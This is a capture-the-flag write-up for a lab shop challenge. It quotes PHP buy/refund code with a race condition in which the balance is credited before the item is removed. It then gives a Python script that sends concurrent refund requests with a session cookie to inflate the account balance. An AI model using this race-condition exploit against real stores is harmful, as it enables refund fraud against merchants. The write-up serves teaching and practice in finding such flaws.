






# Shop 4

After creating an account and logging in, we are greeted with a product page.
Our balance is $100.00, and the only two products in stock are "Race car" and "EPT Fan", which cost $99.99 and $2,499.99, respectively.


We can't afford the fan, but we can buy a Race Car; This sets our balance to $0.01, and sets "Race Car owned" to 1.



Once we have one race car owned, we are able to refund it to get our balance back to 100 and Race Car owned to 0.


## Vulnerability
In order to purchase the more expensive item, we need to somehow update our user balance to be higher than it should be.

The only place balance user balance is changed is `updateUserbalance`
```php
function updateUserbalance($userId, $balance) {
    $db = getDBConnection();
    $stmt = $db->prepare('UPDATE users SET balance = balance + ? WHERE id = ?');
    $stmt->bind_param('di', $balance, $userId);
    return $stmt->execute();
}
```
Which is only called in two different places, when buying and when refunding.
Let's look at these operations:
```php
if ($action === 'buy') {
    // ...
    if (updateUserbalance($user['id'], -$item['price'])) {
        if (addUserItem($user['id'], $item_id)) {
            $messages[] = [
                "category" => "success",
                "message" => "Item purchased successfully!"
            ];
            $user = getCurrentUser();
            $user_items = getItemsByUserId($user['id']);
        } else {
            $messages[] = [
                "category" => "danger",
                "message" => "Error adding item to user inventory."
            ];
            updateUserbalance($user['id'], $item['price']);
        }
    }
```
```php
} elseif ($action === 'refund') {
// ...
    if (updateUserbalance($user['id'], $item['price'])) {
        if (removeUserItem($user['id'], $item_id)) {
            $messages[] = [
                "category" => "success",
                "message" => "Item refunded successfully!"
            ];
            $user = getCurrentUser();
            $user_items = getItemsByUserId($user['id']);
        } else {
            $messages[] = [
                "category" => "danger",
                "message" => "Error removing item from user inventory."
            ];
            updateUserbalance($user['id'], -$item['price']);
        }
    }
```

The case of refunds looks especially interesting, as here we can see that the item is only removed from the user's inventory *after* the user balance has been increased. The code attemps to compensate for this by re-removing the product's price from the user balance in case the user did not really have it in their inventory, but if removeUserItem or the second updateUserBalance fails somehow, then the balance would not be corrected.

## Scripting
We can attempt to exploit this by making a lot of refunds in short succession.

By using our browser's devtools, we can navigate to the network tab, then click the product's refund button, then inspect that request to see what arguments the page uses for its api call.



We can also view the session cookie of our logged in user, which we can use to authenticate our requests.



We can then use python to create a script that makes multiple post requests in rapid succession. In order to avoid waiting for one request to finish before sending the next one, we can use multiprocessing:
```py
from multiprocessing.dummy import Pool
import time
import requests

url = "https://53kilomeddata-0f97-shop-4.ept.gg/"

# from chrome/ff/... devtools > network tab > Headers > Cookie
cookie = {
    "session_token": "5c61b45900997bd3bc0fd20d8aeef968d9e631238d81869b0f1fb30349259f5a"
}

# from chrome/ff/... devtools > network tab > / POST request > request form data
data = {
    "item_id": 1,
    "action": "refund"
}

def post_request():
    print("Sending request...")
    response = requests.post(url, cookies=cookie, data=data)
    # print(response.text)

pool = Pool(10)

for i in range(10):
    pool.apply_async(post_request)

# ensure that all the requests are made before the script exits:
time.sleep(5)
```
## Execution

If we now buy one Race Car, then execute the above script, we should see that the race car's price has been refunded multiple times. Repeating these two steps 2-3 times then earns us enough money to buy the I <3 EPT Fan.


Purchasing the fan, then navigating to "My Orders" via the navbar gives us the flag:


